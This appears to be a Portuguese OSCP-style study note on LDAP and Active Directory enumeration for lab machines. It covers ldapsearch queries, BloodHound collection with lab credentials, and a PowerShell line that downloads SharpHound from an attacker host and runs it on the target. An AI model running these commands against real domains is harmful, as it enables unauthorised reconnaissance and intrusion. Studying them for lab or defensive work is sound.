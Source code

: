# LDAP

Após a fase de enumeração, que pode ser encontrada [aqui](Infraestrutura/OSCP%20Enumeration.md#LDAP), podemos prosseguir com os demais comandos, tais como:

```
ldapsearch -x -H ldap://<hostname> -b "DC=streamio,DC=htb" "*"

ldapsearch -H ldap://10.10.11.158:3268/ -x -s base -b '' "(objectClass=*)" "*"
```

Com credencial

```
ldapsearch -x -H ldap://10.129.210.134 -D "yoshihide@streamio.htb" -W -b "dc=streamio,dc=htb" "(objectclass=group)"
```

Command options explained:

\-x use simple authentication (as opposed to SASL) -H your AD server -D the DN to bind to the directory. In other words, the user you are authenticating with. -W Prompt for the password. The password should match what is in your directory for the the bindn (-D). Mutually exclusive from -w. -b The starting point for the search

## EnumneracaoUsuarios

## Enumeracao (com credenciais)

Para facilitar a enumeração via ldap, podemos utilizar o bloodhound. Visto que é provável que todas as demais enumerações sejam possíveis por ldapsearch também, porém, os comandos e o protocolo detém uma complexidade um pouco maior. Deixaremos essa pesquisa para o futuro. Focando no bloodhound no momento, vamos considerar algumas opções de enumeração.

**Remotamente**

    bloodhound-python -u administrator -p Ignite@987 -ns 192.168.1.172 -d ignite.local -c All
    #Outro exemplo
    bloodhound-python -u mhope -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -v --zip -c All -dc MEGABANK.LOCAL -ns 10.10.10.172

**Localmente**

```
(new-object net.webclient).downloadfile('http://10.10.14.17/SharpHound.exe', 'c:\temp\sh.exe')
.\sh.exe -c all -d active.htb --LdapUsername <UserName> --LdapPassword <Password> --domaincontroller 10.10.10.100
```

Aqui devemos levar em conta algumas coisas na hora de analisar. As ACLs e as permissões que nossos usuários possuem no domínio. Isto pode ser visto por meio do bloodhound da seguinte maneira:

![qownnotes-media-aLRwyW](../.gitbook/assets/qownnotes-media-aLRwyW.png)

Além de verificar os caminhos pré montados qque já fazemos:

![qownnotes-media-GzmGRm](../.gitbook/assets/qownnotes-media-GzmGRm.png)

Outra opção para ser observado seria:

![qownnotes-media-LVuEYt](../.gitbook/assets/qownnotes-media-LVuEYt.png)

Ao clicar com o botão direito no objeto, temos de procurar caminhos mais curtos para chegar neste ponto. Dessa forma, não deixamos passar nenhuma análise por meio do bloodhound.